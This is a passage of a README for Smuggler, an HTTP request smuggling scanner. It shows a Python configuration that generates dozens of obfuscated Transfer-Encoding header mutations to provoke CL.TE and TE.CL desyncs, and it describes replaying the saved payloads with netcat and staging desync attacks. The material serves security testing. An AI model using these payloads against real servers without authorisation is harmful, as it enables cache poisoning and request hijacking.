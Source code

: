 
Here is example content of default.py:
```python
def render_template(gadget):
	RN = "\r\n"
	p = Payload()
	p.header  = "__METHOD__ __ENDPOINT__?cb=__RANDOM__ HTTP/1.1" + RN
	# p.header += "Transfer-Encoding: chunked" +RN	
	p.header += gadget + RN
	p.header += "Host: __HOST__" + RN
	p.header += "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.87 Safari/537.36" + RN
	p.header += "Content-type: application/x-www-form-urlencoded; charset=UTF-8" + RN
	p.header += "Content-Length: __REPLACE_CL__" + RN
	return p


mutations["nameprefix1"] = render_template(" Transfer-Encoding: chunked")
mutations["tabprefix1"] = render_template("Transfer-Encoding:\tchunked")
mutations["tabprefix2"] = render_template("Transfer-Encoding\t:\tchunked")
mutations["space1"] = render_template("Transfer-Encoding : chunked")

for i in [0x1,0x4,0x8,0x9,0xa,0xb,0xc,0xd,0x1F,0x20,0x7f,0xA0,0xFF]:
	mutations["midspace-%02x"%i] = render_template("Transfer-Encoding:%cchunked"%(i))
	mutations["postspace-%02x"%i] = render_template("Transfer-Encoding%c: chunked"%(i))
	mutations["prespace-%02x"%i] = render_template("%cTransfer-Encoding: chunked"%(i))
	mutations["endspace-%02x"%i] = render_template("Transfer-Encoding: chunked%c"%(i))
	mutations["xprespace-%02x"%i] = render_template("X: X%cTransfer-Encoding: chunked"%(i))
	mutations["endspacex-%02x"%i] = render_template("Transfer-Encoding: chunked%cX: X"%(i))
	mutations["rxprespace-%02x"%i] = render_template("X: X\r%cTransfer-Encoding: chunked"%(i))
	mutations["xnprespace-%02x"%i] = render_template("X: X%c\nTransfer-Encoding: chunked"%(i))
	mutations["endspacerx-%02x"%i] = render_template("Transfer-Encoding: chunked\r%cX: X"%(i))
	mutations["endspacexn-%02x"%i] = render_template("Transfer-Encoding: chunked%c\nX: X"%(i))
```

There are no input arguments yet on specifying your own customer headers and user-agents. It is recommended to create your own configuration file based on default.py and modify it to your liking.

Smuggler comes with 3 configuration files: default.py (fast), doubles.py (niche, slow), exhaustive.py (very slow)
default.py is the fastest because it contains less mutations.

specify configuration files using the -c/--configfile \<configfile> command line option

## Payloads Directory
Inside the Smuggler directory is the payloads directory. When Smuggler finds a potential CLTE or TECL desync issue, it will automatically dump a binary txt file of the problematic payload in the payloads directory. All payload filenames are annotated with the hostname, desync type and mutation type. Use these payloads to netcat directly to the server or to import into other analysis tools.

## Helper Scripts
After you find a desync issue feel free to use my Turbo Intruder desync scripts found Here: https://github.com/defparam/tiscripts
`DesyncAttack_CLTE.py` and `DesyncAttack_TECL.py` are great scripts to help stage a desync attack
